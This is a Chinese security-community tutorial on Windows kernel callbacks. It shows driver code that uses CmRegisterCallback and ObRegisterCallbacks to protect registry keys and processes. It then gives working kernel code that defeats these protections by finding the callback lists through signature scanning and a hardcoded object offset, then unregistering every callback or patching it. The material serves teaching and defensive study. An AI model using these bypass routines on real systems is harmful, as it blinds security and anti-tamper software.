# 内核初级对抗技术分析-先知社区

> **来源**: https://xz.aliyun.com/news/18199  
> **文章ID**: 18199

---

# 内核 初级对抗

## 前言

```
Windows 内核提供了多个强大的回调接口，可以用于监控或控制系统行为，其中 ObRegisterCallbacks 和 CmRegisterCallback 是两种最常用于进程保护和注册表监控的机制。
本文会通过多个完整的驱动示例，演示如何利用这两种回调进行内核级防护，并分析它们在初级对抗中的实际应用效果与局限性。
测试环境：win10
```

## 基础知识

```
CmRegisterCallback：用于拦截注册表的创建、修改、重命名、删除等操作，使用回调函数可判断操作是否合法，并决定是否放行。
常用于：
拦截恶意程序添加启动项。
保护系统关键注册表项不被修改。


ObRegisterCallbacks：提供了对进程、线程、句柄对象访问的监控机制。
常用于：
阻止非授权进程访问指定目标进程。
实现类似“句柄防注入”功能。
```

## 防御

### 注册表监控

关键API：

```
NTSTATUS
  CmRegisterCallback(
    IN PEX_CALLBACK_FUNCTION  Function,	  //指向RegistryCallback例程的指针
    IN PVOID  Context,					//作为参数传递给RegistryCallback中的CallbackContext，一般为NULL	
    OUT PLARGE_INTEGER  Cookie 			 //指向LARGE_INTEGER变量的指针，该变量接受标识回调例程的值，当注册回调例程时，此值将作为Cookie参数传递给CmUnRegisterCallback
    );

NTSTATUS 
  RegistryCallback(
    __in PVOID  CallbackContext,		//注册该RegistryCallback例程时，驱动程序作为Context参数传递给RegistryCallback的值，一般为NULL
    __in_opt PVOID  Argument1,			//REG_NOTIFY_CLASS联合体类型的值，用于表示正在执行的注册表的操作类型，以及是否在执行注册表操作之前或之后调用RegistryCallback例程
    __in_opt PVOID  Argument2 			//指向特定于注册表操作的结构指针，结构类型取决于Argument1中的REG_NOTIFY_CLASS类型值
    );


```

以下为最常用的REG\_NOTIFY\_CLASS的值



关键代码：

```
//定义全局变量标识
LARGE_INTEGER Cookie = { 0 };

//DriverEntry安装 
NTSTATUS status = CmRegisterCallback(RegistryCallback, NULL, &Cookie);//注册回调函数
//DrvUnload卸载
 CmUnRegisterCallback(Cookie);

// 注册表回调函数
NTSTATUS RegistryCallback(
    PVOID CallbackContext,
    PVOID Argument1,
    PVOID Argument2
)
{
    UNREFERENCED_PARAMETER(CallbackContext);

    UNICODE_STRING tempName = { 0 };
    // 设置要匹配的目标名称模式（使用通配符）
    RtlInitUnicodeString(&tempName, L"*GSAHOJGHJERIWO");

    REG_NOTIFY_CLASS notifyClass = (REG_NOTIFY_CLASS)(ULONG_PTR)Argument1;
    NTSTATUS status = STATUS_SUCCESS;

    switch (notifyClass)
    {
    case RegNtRenameKey: {
        // 处理重命名注册表键的事件
        PREG_RENAME_KEY_INFORMATION pInfo = (PREG_RENAME_KEY_INFORMATION)Argument2;
        if (pInfo && pInfo->NewName) {
            // 如果新名称符合指定模式，则输出并阻止操作
            if (FsRtlIsNameInExpression(&tempName, pInfo->NewName, TRUE, NULL)) {
                DbgPrint("Bad Rename
");
                status = STATUS_UNSUCCESSFUL;
            }
        }
        break;
    }

    case RegNtPreCreateKey:
    case RegNtPreCreateKeyEx: {
        // 处理注册表键创建前的事件（适配不同版本的Windows）
        PREG_CREATE_KEY_INFORMATION pInfo = (PREG_CREATE_KEY_INFORMATION)Argument2;
        if (pInfo && pInfo->CompleteName) {
            if (FsRtlIsNameInExpression(&tempName, pInfo->CompleteName, TRUE, NULL)) {
                DbgPrint("Bad Create
");
                status = STATUS_UNSUCCESSFUL;
            }
        }
        break;
    }

    default:
        // 可选：处理其他通知类型或调试输出
        break;
    }

    return status;
}

```



如图所示，分别使用R3Demo和手动创建方式创建指定的注册表项，我们在回调函数中设置RegNtRenameKey和RegNtPreCreateKeyEx用来拦截注册表项的创建操作，这样当创建指定名称的注册表项时，我们就能够识别并拦截，达到阻止创建的效果（注：如果是手动创建注册表项，就会先创建【新项 #1】，再重命名为你创建的项，所以手动创建指定项要使用RegNtRenameKey拦截）

### 进程保护监控

在windows体系中，应用层是不能直接操作内核对象的，而是通过句柄来索引，详细的说内核对象通过API来创建，每个内核对象是一个数据结构，它对应一块内存，由操作系统内核分配，并且只能由操作系统内核访问。 在此数据结构中少数成员如安全描述符和使用计数是所有对象都有的，但其他大多数成员都是不同类型的对象特有的。 内核对象的数据结构只能由操作系统提供的API访问，应用程序在内存中不能访问。 调用创建内核对象的函数后，该函数会返回一个句柄，它标识了所创建的对象。 它可以由进程的任何线程使用。

通过ObRegisterCallbacks实现进程保护的核心是利用 Windows 内核的对象回调机制，在进程对象的关键操作（如句柄创建、权限获取）发生时介入校验，动态修改访问权限，可以有效拦截R3下的常规攻击

关键API：

```
NTSTATUS ObRegisterCallbacks(
  [in]  POB_CALLBACK_REGISTRATION CallbackRegistration,	//指向 OB_CALLBACK_REGISTRATION 结构的指针，该结构指定回调例程和其他注册信息的列表。
  [out] PVOID                     *RegistrationHandle	//指向变量的指针，该变量接收标识注册的回调例程集的值。 调用方将此值传递给 ObUnRegisterCallbacks 例程，以取消注册回调集
);
```

关键代码：

```
//DriverEntry安装 ：    
    PLDR_DATA_TABLE_ENTRY  ldr = (PLDR_DATA_TABLE_ENTRY)pDriver->DriverSection;
    ldr->Flags |= 0x20;

    
    OB_CALLBACK_REGISTRATION ob = { 0 };
    OB_OPERATION_REGISTRATION oor = { 0 };

    UNICODE_STRING attde = { 0 };
    
    ob.Version = ObGetFilterVersion();
    ob.OperationRegistrationCount = 1;
    ob.OperationRegistration = &oor;

    RtlInitUnicodeString(&attde, L"321999");//谁注册的高，谁先被注册
    ob.RegistrationContext = NULL;
    ob.Altitude = attde;
//以上代码基本为固定操作
    oor.ObjectType = PsProcessType;//决定注册哪种类型
    oor.Operations = OB_OPERATION_HANDLE_CREATE | OB_OPERATION_HANDLE_DUPLICATE;//哪种情况触发回调
    oor.PreOperation = ProtectProcess;//回调函数（前操作）
    oor.PostOperation = NULL;//后操作

    status = ObRegisterCallbacks(&ob,&_HANDLE);


//回调函数
OB_PREOP_CALLBACK_STATUS ProtectProcess(
    PVOID RegistrationContext,
    POB_PRE_OPERATION_INFORMATION OperationInformation)
{
    if (*PsProcessType != OperationInformation->ObjectType) {
        return OB_PREOP_SUCCESS;
    }

    PEPROCESS targetProcess = (PEPROCESS)OperationInformation->Object;
    PUCHAR targetName = PsGetProcessImageFileName(targetProcess);
    PUCHAR sourceName = PsGetProcessImageFileName(PsGetCurrentProcess());

    // 目标是 notepad
    if (targetName && _stricmp((char*)targetName, "notepad.exe") == 0) {
        // 白名单：允许系统关键进程访问 notepad
        if (sourceName &&
            (_stricmp((char*)sourceName, "explorer.exe") == 0 ||
                _stricmp((char*)sourceName, "csrss.exe") == 0 ||
                _stricmp((char*)sourceName, "services.exe") == 0 ||
                _stricmp((char*)sourceName, "smss.exe") == 0 ||
                _stricmp((char*)sourceName, "wininit.exe") == 0 ||
                _stricmp((char*)sourceName, "lsass.exe") == 0 ||
                _stricmp((char*)sourceName, "notepad.exe") == 0))
        {
            // allow
            return OB_PREOP_SUCCESS;
        }

        // 非白名单访问 notepad，拦截
        DbgPrint("阻止进程 %s 访问 notepad.exe
", sourceName);
        OperationInformation->Parameters->CreateHandleInformation.DesiredAccess = 0;
    }

    return OB_PREOP_SUCCESS;
}
```

其中关键部分是：OperationInformation->Parameters->CreateHandleInformation.DesiredAccess = 0;

在 Windows 系统里，若一个进程要访问另一个进程，需要先获取目标进程的句柄（handle）。而获取句柄通常会调用像OpenProcess这样的函数，这些函数最终会在内核中触发句柄创建操作。句柄代表着对某个对象（这里指进程）的引用，并且会关联一系列访问权限，比如读取内存、写入内存、终止进程等。这些权限是通过DesiredAccess参数来指定的，它是一组标志位的组合，像PROCESS\_VM\_READ（读取内存）、PROCESS\_TERMINATE（终止进程）等都属于常见的标志位。



在代码中，我们设置DesiredAccess为0，意味着请求的访问权限被全部清除。这样后续若进程试图通过这个句柄执行任何操作（如读取内存），系统会检查句柄权限。由于权限为 0，所有操作都会因权限不足而失败。这样我们就可以达到如图阻止CE读写内存的效果等

## 进攻

对抗注册表保护和进程保护我们需要用windbg/vs进行双机调试，这方面的教程有很多大家可以自行搜索参考

### 对抗注册表保护

要过掉注册表保护，我们首先要明确方向，主要有以下几种方法：

* 通过CmUnRegisterCallback函数找到Cookie直接调用卸载
* 找到回调函数首地址，直接ret
* 将CmpCallBackCount设置为0

先记录Cookie



回调函数入口



```
Cookie：				 01ce6288`afd295e0 
RegistryCallback：	     fffff804`2d201080
```

在写代码之前，我们先手动找一下CmUnRegisterCallback



其中有一个很关键的成员CallbackListHead，我们先dq进去看一下



一直dq下去可以验证发现是一个双向环状链表



其中该结构体的第一个成员指向下一个结构体，第二个成员指向上一个结构体，通过之前记录的Cookie和回调函数入口发现，有一个结构体的第四、五、六个成员分别是Cookie，Context，回调函数入口地址，那么最关心的成员我们就找到了，现在就是要想办法通过代码的方式找到它

那我们就可以自行构建一下该结构体：

```
typedef struct _CMPCALLBACKLIST {
    LIST_ENTRY callbacklist; // 链表头
    ULONG64 unknown1; // 未知字段
    LARGE_INTEGER cookies; 
    ULONG64 funcontext; 
    ULONG64 fun; // 回调函数地址
}CMPCALLBACKLIST,*PCMPCALLBACKLIST;
```



先通过MmGetSystemRoutineAddress找到CmUnRegisterCallback的地址，然后提取特征码，根据特征定位关键位置

代码：

```
VOID       EnumCmpCallback() {
    UNICODE_STRING   apiname = { 0 };
    PUCHAR           apiaddr = NULL;
    BOOLEAN          bfound = FALSE;

    RtlInitUnicodeString(&apiname, L"CmUnRegisterCallback");
    apiaddr = (PUCHAR)MmGetSystemRoutineAddress(&apiname);

    INT i = 0;
    for (i = 0; i < 1000; i++) {//校验是否为关键位置
        if (*(apiaddr + i) == 0x48 && *(apiaddr + i + 5) == 0x48 && *(apiaddr + i + 5 + 1) == 0x8d && *(apiaddr + i + 5 + 2) == 0x0d) {
            apiaddr = apiaddr + i + 5;
            bfound = TRUE;
            break;
        }
    }

    if(!bfound) {
        DbgPrint("CmUnRegisterCallback not found
");
        return;
    }

    LONG offset = 0;
    offset = *(PLONG)(apiaddr + 3); // 获取偏移量

    PULONG_PTR callbacklisthead = (PULONG_PTR)(apiaddr + offset + 7); // 获取回调列表头指针
    PLIST_ENTRY plist = NULL;
    PCMPCALLBACKLIST tempnotifylist = NULL;

    PCMPCALLBACKLIST notify = NULL;

    tempnotifylist = (PCMPCALLBACKLIST)(*callbacklisthead); // 获取回调列表头
    plist = (PLIST_ENTRY)tempnotifylist;
    do {
        notify = (PCMPCALLBACKLIST)plist; // 获取当前回调节点
        if(MmIsAddressValid(notify)) { // 检查地址是否有效
            DbgPrint("Callback Function: %p, Cookie: %I64x, Context: %I64x
", notify->fun, notify->cookies.QuadPart, notify->funcontext);
        } else {
            DbgPrint("Invalid address in callback list
");
        }
        plist = plist->Flink; // 移动到下一个节点

    } while (plist != (PLIST_ENTRY)(*callbacklisthead));
}

```

这样通过该函数我们就可以查找到我们需要的关键信息，这样使用Cookies调用卸载函数或在函数头写补丁直接ret则可直接过掉注册表保护



CmpCallBackCount在CmUnRegisterCallback的尾部，找寻方法同理

#### 注意

在上述代码中，我们不能在循环中直接调用CmUnRegisterCallback，因为这个函数内部会从注册表回调链表中移除当前节点，并释放或标记无效，而我们在循环中使用plist = plist->Flink遍历链表，假设我们有以下下链表

HEAD <-> A <-> B <-> C 当遍历到A并移除后链表变成 HEAD <-> B <-> C 但我们的下一步是 plist = plist->Flin 也就是 plist = A->Flink;可此时A的内容已不可靠，所以会直接导致蓝屏

```
do {
    notify = (PCMPCALLBACKLIST)plist; // 获取当前回调节点
    if(MmIsAddressValid(notify)) { // 检查地址是否有效
        DbgPrint("Callback Function: %p, Cookie: %I64x, Context: %I64x
", notify->fun, notify->cookies.QuadPart, notify->funcontext);
        if (notify->cookies.QuadPart != 0) {
            CmUnRegisterCallback(notify->cookies); // 注销回调函数
        }
    } 
    plist = plist->Flink; // 移动到下一个节点

} while (plist != (PLIST_ENTRY)(*callbacklisthead));
```

所以我们要想使用CmUnRegisterCallback过注册表监控需要先在循环中记录cookies，再循环移除

```
#define MAX_CALLBACKS 128
LARGE_INTEGER cookies[MAX_CALLBACKS] = { 0 };
INT count = 0;

// 遍历并保存 cookies
tempnotifylist = (PCMPCALLBACKLIST)(*callbacklisthead);
plist = (PLIST_ENTRY)tempnotifylist;
do {
    notify = (PCMPCALLBACKLIST)plist;
    if (MmIsAddressValid(notify)) {
        DbgPrint("Callback Function: %p, Cookie: %I64x, Context: %I64x
",
                 notify->fun, notify->cookies.QuadPart, notify->funcontext);

        if (notify->cookies.QuadPart != 0 && count < MAX_CALLBACKS) {
            cookies[count++] = notify->cookies;
        }
    }
    plist = plist->Flink;
} while (plist != (PLIST_ENTRY)(*callbacklisthead));

// 遍历完成后再注销
for (int i = 0; i < count; ++i) {
    CmUnRegisterCallback(cookies[i]);
}

```

### 对抗进程保护

要过掉进程保护，方法与对抗注册表保护类似：

* 通过ObUnRegisterCallbacks找到\_HANDLE值，再调用ObUnRegisterCallbacks
* 找到回调函数入口，再ret
* 将Altitude注册更高，进行拦截

同上我们先记录一下\_HANDLE和回调函数入口地址





```
_HANDLE：		  ffffd104`250457d0 
ProtectProcess：  fffff806`1d141160
```

对抗进程保护我们需要先找到对象类型，也就是PsProcessType，它是指针的指针



所以我们需要先拿到PsProcessType的值，再拿该地址的值来dt \_OBJCET\_TYPE



查看CallbackList





我们一直dq下去不难发现这个链表类似于\_CMPCALLBACKLIST，都是双向环状链表，在链表的一个成员中，发现\_HANDLE和ProtectProcess都在该结构体中，按照老样子，整理一下该结构体

```
typedef struct _OBCALLBACKINFO {
    LIST_ENTRY	plist;
    ULONG64 	unknow;
    ULONG64		POBJECT_HEAD;
    ULONG64 	callbackHandle;
    ULONG64		pre;
    ULONG64 	pos;
}OBCALLBACKINFO, * POBCALLBACKINFO;
```

代码比EnumCmpCallback要简单，因为我们不需要找特征码了，PsProcessType是全局的，可以直接获取

```
VOID       EnumObCallback() {
    
    //DbgBreakPoint(); 
    POBCALLBACKINFO  tempinfo = NULL;
    PULONG_PTR tempaddr = (PULONG_PTR)(*PsProcessType);
    tempaddr = (PULONG_PTR)((PUCHAR)tempaddr + 0xC8);

    tempaddr = (PULONG_PTR)(*tempaddr);
    if (!MmIsAddressValid(tempaddr)) {
        return;
    }
    tempinfo = (POBCALLBACKINFO)tempaddr;

    POBCALLBACKINFO notify = NULL;

    PLIST_ENTRY plist = NULL;;
    plist = &tempinfo->plist; // 获取回调列表头部地址


    do {

        notify = (POBCALLBACKINFO)plist; // 获取当前回调节点
        if(MmIsAddressValid(notify)) { // 检查地址是否有效
            DbgPrint("Callback Function: %p, HANDLE: %I64x
", notify->pre, notify->POBJECT_HEAD);
        } else {
            DbgPrint("Invalid address in callback list
");
        }
        plist = plist->Flink; // 移动到下一个节点
    } while (plist != (PLIST_ENTRY)(tempinfo));
}

```



## 总结

内核回调机制是内核安全防护的重要组成部分，但在面对有一定逆向能力和 Ring0 编写能力的攻击者时，其对抗能力仍存在上限。通过合理的回调管理和策略（如白名单、路径精确匹配、进程行为分析）可以显著提高防护效果。但同时也必须考虑回调滥用可能带来的系统不稳定和兼容性问题，因此在实际应用中应权衡性能、安全与稳定性。
